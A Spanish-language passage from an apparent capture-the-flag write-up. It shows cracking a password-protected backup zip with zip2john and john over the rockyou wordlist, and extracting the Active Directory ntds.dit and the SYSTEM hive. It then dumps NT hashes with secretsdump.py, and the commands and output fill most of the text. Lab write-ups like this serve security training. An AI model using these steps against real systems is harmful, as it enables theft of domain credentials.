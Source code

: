 ```null
------------------- ----- ------------ ------------  ------------------------
2020-09-23 17:40:25 D....            0            0  Active Directory
2020-09-23 17:38:20 .....     50331648      8483543  Active Directory/ntds.dit
2020-09-23 17:38:20 .....        16384          342  Active Directory/ntds.jfm
2020-09-23 17:40:25 D....            0            0  registry
2020-09-23 17:22:12 .....       262144         8522  registry/SECURITY
2020-09-23 17:22:12 .....     12582912      2157644  registry/SYSTEM
------------------- ----- ------------ ------------  ------------------------
2020-09-23 17:40:25           63193088     10650051  4 files, 2 folders
```

Si lo intento descomprimir, me pide una contraseña

```null
unzip backup.zip -d backup
Archive:  backup.zip
   creating: backup/Active Directory/
[backup.zip] Active Directory/ntds.dit password: 
```

Creo un hash que me permita romperlo por fuerza bruta con john

```null
zip2john backup.zip > hash
```

Encuentro la contraseña

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)     
1g 0:00:00:00 DONE (2023-01-24 09:16) 100.0g/s 819200p/s 819200c/s 819200C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora ya lo puedo descubrir sin problema

```null
unzip backup.zip -d backup
Archive:  backup.zip
   creating: backup/Active Directory/
[backup.zip] Active Directory/ntds.dit password: 
  inflating: backup/Active Directory/ntds.dit  
  inflating: backup/Active Directory/ntds.jfm  
   creating: backup/registry/
  inflating: backup/registry/SECURITY  
  inflating: backup/registry/SYSTEM  
```

Teniendo el SYSTEM y el ntds.dit, puedo tratar de computar los hashes NT de forma local

```null
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL > ../hashesNT
```
